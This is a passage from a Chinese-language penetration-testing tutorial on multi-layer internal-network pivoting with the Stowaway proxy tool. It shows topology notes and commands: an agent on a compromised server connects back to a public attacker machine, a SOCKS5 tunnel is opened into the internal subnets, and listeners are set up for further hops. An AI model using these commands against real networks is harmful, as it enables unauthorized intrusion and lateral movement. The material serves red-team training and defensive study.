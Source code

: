 同样也可以使用cs使用反弹node1本地的某个端口,再用 backward 端口转发, 实现内网上线的一个操作. 这里就不再演示.

```
socks 8879 admin admin123
```

在admin节点的8879 开启一个socks代理, 使通过 8879的所有流量都代理到 node1 内

在随便一台机器上连接socks代理

```
export ALL_PROXY=socks://admin:admin123@ADMIN_NODE_IP:8879
```

然后使用 使用 `curl localhost:8889` 即可访问到网页.  

​                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        

### 多层代理搭建

多层代理搭建主要使用 node的监听与连接实现.

![image-20221114010536644](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20221114010536644.png)

简单画了一个网络拓扑.其中 kali是一台拥有公网IP的攻击机,  A是一台拥有公网IP的web服务器,并且其自身存在内网IP `192.168.0.2/24`. 

C 是一台位于 `192.168.1.0/24`网段的机器, 而B既位于 `192.168.0.1/24` 又位于 `192.168.1.1`.

代理搭建:

1. 在 `107.xxx`的公网KALI上启动 `stowaway`  `admin主节点`:

```
./linux_x64_admin -l 8856 -s 123456
```

2. 在拿下A机器后,先使用client 连接主节点, 再开启sock5将公网流量带入 `192.168.0.1/24`网段, 拿下主机B.

   使用client 连接主节点

   ```
   ./linux_x64_agent -c 107.xxx.xxx.xxx:8856 -s 123456
   ```

   开启sock

   ```
   (admin)  >>use 0
   (node 0) >>socks 8879 admin admin123
   ```

   再KALI上配置`sock5代理`

   ```
   export ALL_PROXY=socks5://admin:admin@:8879
   ```

3. 拿下B后, 现在使B和C连接的办法又两个. 1) A开启监听, B主动连接; 2) B开启监听, A主动连接.

   这里我以1) 为例:

   ```
   (node 0) >>listen
   	输入端口号: 8887
   ```

